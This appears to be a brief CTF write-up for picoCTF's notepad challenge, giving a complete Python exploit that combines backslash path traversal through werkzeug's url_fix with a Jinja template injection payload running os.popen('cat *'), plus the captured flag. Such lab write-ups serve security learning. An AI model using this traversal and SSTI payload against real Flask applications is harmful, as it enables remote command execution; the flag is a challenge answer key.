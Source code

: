 ```yaml
---
created: 2024-11-16T19:45
updated: 2024-11-16T19:48
---
```


Python path traversal + template injection.

```python
from werkzeug.urls import url_fix
```

`url_fix()` converts backslashes to slashes, I have encountered this before.

Which means we can path traverse using backslashes, to add files to the `../templates/errors/` directory.

Afterwards we can exploit the template include to include our custom templates.

```html
{% include "errors/" + error + ".html" ignore missing %}
```

```python
import requests
t = "https://notepad.mars.picoctf.net"
payload = "{{request['application']['\\x5f\\x5fglobals\\x5f\\x5f']['\\x5f\\x5fbuiltins\\x5f\\x5f']['\\x5f\\x5fimport\\x5f\\x5f']('os')['popen']('cat *')['read']()}}"

p = ("../templates/errors/flag").ljust(128, "a")


url = requests.post(t+"/new", data={"content": p.replace("/", "\\")+".html"+payload}).url
error = url.split("/")[-1][:-len(".html")]

print(requests.get(t+"/", params={"error": error}).text)
```

```flag
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```